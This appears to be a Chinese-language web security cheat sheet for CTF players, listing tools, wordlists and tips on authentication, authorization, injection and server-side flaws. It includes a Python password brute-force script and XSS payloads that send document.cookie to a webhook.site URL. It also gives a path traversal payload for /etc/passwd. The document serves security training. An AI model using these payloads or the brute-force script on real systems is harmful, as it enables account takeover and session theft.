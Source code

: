 # Web安全攻防工具与技巧速查表

本项目旨在为Web攻防学习者和CTF选手提供一份高效、实用的工具和技巧速查表，涵盖常见Web安全漏洞的检测与利用方法，以及配套的工具和脚本推荐。

## 环境与工具建议

- **gobuster**：目录/路径爆破工具
- **Burp Suite**：Web渗透测试神器，建议配置好代理和mtls
- **Python**：建议安装，方便自定义脚本
- **常用爆破脚本**：如用于凭证猜解的脚本
- **常用密码字典**：[xato-net-10-million-passwords-1000.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/xato-net-10-million-passwords-1000.txt)
- **默认凭证字典**：[default-passwords.csv](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv)
- **常用路径字典**：如 [common.txt](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content)
- **webhook**：[webhook.site](https://webhook.site/)
- **hashcat**：本地hash破解工具，[hashcat cheatsheet](https://cheatsheet.haax.fr/passcracking-hashfiles/hashcat_cheatsheet/)
- **在线hash破解**：[crackstation.net](https://crackstation.net/)
- **Cookie编辑工具**：如EditThisCookie插件，或直接用浏览器开发者工具
- **Nikto**：Web服务器漏洞扫描
- **Cewl**：自定义字典生成工具
- **Payload All The Things**：漏洞Payload集合 [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- **CyberChef**：万能编码/解码/分析工具 [CyberChef](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,''))
- **hash识别**：[tunnelsup hash analyzer](https://www.tunnelsup.com/hash-analyzer/)
- **Base64编码/解码**：[base64decode.org](https://www.base64decode.org/)、[base64encode.org](https://www.base64encode.org/)
- **JWT分析**：[jwt.io](https://jwt.io/)
- **Flask session分析**：[flask-session-cookie-manager](https://noraj.github.io/flask-session-cookie-manager/)、[flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)
- **URL编码解码**：[urldecoder.org](https://www.urldecoder.org/)

---

## 常见漏洞与利用技巧

### 1. 认证相关漏洞（Authentication）

#### 1.1 默认密码
- 检查应用是否有明显的框架标识（如WordPress、Tomcat等）
- 常用默认凭证爆破：[default-passwords.csv](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv)

#### 1.2 弱密码
- 利用Python脚本进行密码爆破（示例代码见下方）
- 可用字典：[xato-net-10-million-passwords-1000.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/xato-net-10-million-passwords-1000.txt)

```python
import requests
import time

wordlist = open("passwords.txt", "r", encoding="utf8").readlines()
url = "https://example.com/login"
headers = {"Content-Type": "application/x-www-form-urlencoded"}

for pwd in wordlist:
    pwd = pwd.strip('\n')
    data = {'username': 'admin', 'password': pwd}
    r = requests.post(url, headers=headers, data=data)
    if "Incorrect" not in r.text:
        print("Password is: " + pwd)
        break
    time.sleep(0.5)
```

#### 1.3 多因素认证（MFA）
- TOTP码可用[totp.danhersam.com](https://totp.danhersam.com/)生成

#### 1.4 SQL注入
- 常用Payload参考：[PayloadsAllTheThings - SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- 可用[guidedctf.sec.edu.au/query-viewer](https://guidedctf.sec.edu.au/query-viewer)可视化SQL查询

#### 1.5 弱会话管理
- 检查Cookie内容，尝试修改角色、用户ID等敏感字段
- JWT、Flask Token分析与伪造见“编码/加密/Token分析”部分

#### 1.6 前端信息泄露
- 检查页面源码与JS文件，查找硬编码凭证或API Key

---

### 2. 授权相关漏洞（Authorization）

#### 2.1 弱会话管理
- 检查Cookie是否可变更为高权限角色或其他用户ID

#### 2.2 API接口/敏感端点泄露
- 检查JS和HTML源码，查找隐藏API端点

#### 2.3 IDOR（不安全直接对象引用）
- 枚举和篡改参数（如id、username、email等），尝试访问他人资源

#### 2.4 URL篡改
- 枚举API路径，尝试越权访问
- 针对403路径继续爆破下级目录

---

### 3. 输入注入类漏洞（Input Injection）

#### 3.1 SQL注入
- 参见认证部分
- Payload参考：[PayloadsAllTheThings - SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

#### 3.2 XSS（跨站脚本攻击）
- 常用Payload参考：[PayloadsAllTheThings - XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- Cookie窃取Payload示例：
  ```html
  <img src=x onerror=this.src='https://webhook.site/xxx?c='+document.cookie>
  <script>fetch('https://webhook.site/xxx?c='+document.cookie)</script>
  ```
- 检查HTTPOnly标志，利用EditThisCookie等工具
- CSP评估：[csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com)

---

### 4. 服务器端攻击（Server Side Attacks）

#### 4.1 路径穿越（Path Traversal）
- 示例Payload：`../../../../../../etc/passwd`
- 详细参考：[PayloadsAllTheThings - Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)
- 在线练习：[PortSwigger Path Traversal](https://portswigger.net/web-security/file-path-traversal)

#### 4.2 本地文件包含（LFI）
- 与路径穿越类似，参考：[PayloadsAllTheThings - File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
- 在线练习：[PentesterLab LFI](https://pentesterlab.com/exercises/from_sqli_to_shell/course)

#### 4.3 文件上传漏洞
- 检查文件上传功能，尝试绕过后端校验
- 参考：[PayloadsAllTheThings - Upload Insecure Files](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
- 在线练习：[PortSwigger File Upload](https://portswigger.net/web-security/file-upload)

#### 4.4 SSRF（服务器端请求伪造）
- 查找URL或文件路径参数，尝试SSRF Payload
- 参考：[PayloadsAllTheThings - SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- 在线练习：[PortSwigger SSRF](https://portswigger.net/web-security/ssrf)

---

### 5. 编码/加密/Token分析

- **Base64/URL编码识别与解码**：`==`、`=`、`%3d`等结尾多为Base64，可用[CyberChef](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,''))、[base64decode.org](https://www.base64decode.org/)
- **Hash识别**：[tunnelsup hash analyzer](https://www.tunnelsup.com/hash-analyzer/)
- **JWT分析**：[jwt.io](https://jwt.io/)，支持Payload修改与签名
- **Flask Session分析**：[flask-session-cookie-manager](https://noraj.github.io/flask-session-cookie-manager/)、[flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)
- **URL解码**：[urldecoder.org](https://www.urldecoder.org/)

---

## 推荐资源

- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [SecLists](https://github.com/danielmiessler/SecLists)
- [CyberChef](https://gchq.github.io/CyberChef/#recipe=Magic(3,false,false,''))
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [PentesterLab](https://pentesterlab.com/exercises/from_sqli_to_shell/course)

---

> 本文档持续更新，欢迎PR补充更多实用技巧和工具！

---

如果需要Markdown源码或有特定排版需求，也可以告知！
